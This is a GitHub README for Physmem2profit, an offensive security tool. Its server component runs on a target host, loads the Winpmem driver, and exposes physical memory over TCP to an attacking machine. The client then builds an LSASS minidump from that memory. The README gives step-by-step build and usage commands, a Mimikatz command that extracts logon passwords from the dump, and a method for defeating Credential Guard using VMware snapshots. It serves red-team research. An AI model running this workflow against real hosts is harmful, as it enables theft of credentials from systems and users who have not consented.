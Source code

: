# Physmem2profit

Physmem2profit can be used to create a minidump of a target host's LSASS process by analysing physical memory remotely. The intention of this research is to propose an alternative approach to credential theft and create a modular framework that can be extended to support other drivers that can access physical memory. Physmem2profit generates a minidump (.dmp) of LSASS that can be further analyzed with Mimikatz. The tool does not require Cobalt Strike but should work fine over beacon with a SOCKS proxy.

The idea is illustrated below:

![Overview of Physmem2profit](docs/physmemlayout.png)

The tool has two components:

1. The C# server component, `physmem2profit.exe`, executed on the target host
    * Loads the Winpmem driver and acts as a server, which exposes the physical RAM of the target host through a TCP port
1. The client, `physmem2profit` Python module, executed on the attacking machine
    * When executed with `--mode mount`, connects to the target machine and mounts the physical RAM of the target as a raw file with the help of [FUSE](https://en.wikipedia.org/wiki/Filesystem_in_Userspace)
    * When executed with `--mode dump`, calls various [Rekall](https://github.com/google/rekall) plugins to analyze the memory image and to generate a minidump of the LSASS process.
    * When executed with `--mode all`, performs both of the above actions. Connection with server will be closed when dump is complete.
## Docker
### Build
```bash
git clone --recurse-submodules https://github.com/lyghtnox/physmem2profit
cd physmem2profit/client
docker build .
```

### Run
```bash
docker run -it --rm --device=/dev/fuse --cap-add SYS_ADMIN physmem2profit
```
Driver source (to use with --install): https://github.com/Velocidex/WinPmem/blob/master/kernel/binaries/winpmem_x64.sys

## Installation Instructions

1. Clone the Physmem2profit Git repository: `git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git`
1. For the server running on the target computer:
    1. Build `physmem2profit/server/Physmem2profit.sln` with Visual Studio
1. For the client running on the attacking machine:
    1. `bash physmem2profit/client/install.sh`

## Usage

1. Run `physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]` on the target as admin.
    * You can download the signed Winpmem driver [here](https://github.com/Velocidex/c-aff4/raw/master/tools/pmem/resources/winpmem/att_winpmem_64.sys). This driver needs to be present on the target host.
1. Run `source physmem2profit/client/.env/bin/activate` on the attacking machine. This command will activate the virtualenv created by `install.sh`.
1. Run `cd physmem2profit/client` and ```python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]``` on the attacking machine
    * `physmem2profit.exe` needs to be running on the target machine before you run this command.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp` on the attacking machine.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

## Credential Guard

Decrypting credentials protected by Credential Guard requires gaining access to the encryption key that is stored in the Secure World. For testing purposes, Physmem2profit supports retrieving data from the Secure World from VMware Fusion/Workstation snapshots (.vmem files). This allows credentials protected by Credential Guard to be decrypted with the help of Mimikatz.

### Setting up a virtual machine for testing

1. Create a Windows 10 virtual machine with VMware Fusion/Workstation. Join the virtual machine to a domain (Credential Guard [does not protect](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-protection-limits) local accounts)
1. In the Advanced settings, Enable VBS (Virtualization Based Security)
1. Deploy Credential Guard. An easy option is to use the [Device Guard and Credential Guard hardware readiness tool](https://www.microsoft.com/en-us/download/details.aspx?id=53337)
1. Reboot
1. Run `msinfo32` to ensure `Virtualization-based security Services Running` says `Credential Guard`

### Testing

1. Log in to the virtual machine (with a domain account)
1. Take a snapshot
1. Run Physmem2profit against the .vmem file: ```python3 physmem2profit --mode dump --vmem /tmp/Win10-Snapshot1.vmem --label credential-guard-test```
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp`. The minidump contains a special stream that holds the data from the Secure World, allowing Mimikatz to locate the encryption key.
    * The Secure World data is also stored to `output/[label]-[date]-secure-world.raw`.
    * If Rekall has problems parsing the .vmem file, Physmem2profit will recommend you to copy the .vmsn file and rename it to .vmss
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

### Future work

The support for bypassing Credential Guard by exploiting the [S3 Resume firmware vulnerability](https://www.kb.cert.org/vuls/id/976132/), demonstated in our [Disobey talk](https://disobey.fi/2020/profile/lets_get_physical), is coming soon :).

## More Information

[Rethinking Credential Theft](https://labs.f-secure.com/blog/rethinking-credential-theft/) | a blog post explaining why this approach to credential theft was chosen.

Physmem2profit is developed by [@b3arr0](https://twitter.com/b3arr0) and [@TimoHirvonen](https://twitter.com/TimoHirvonen).

Kudos for contributing:
* Janusz Szmigielski for refactoring the code for the first release
* Pawel Kurowski for refactoring the code for the first release
* Grzegorz Rychlik for refactoring the code for the first release

## TODO
- [ ] Add pypykatz module to Rekall to parse the dmp
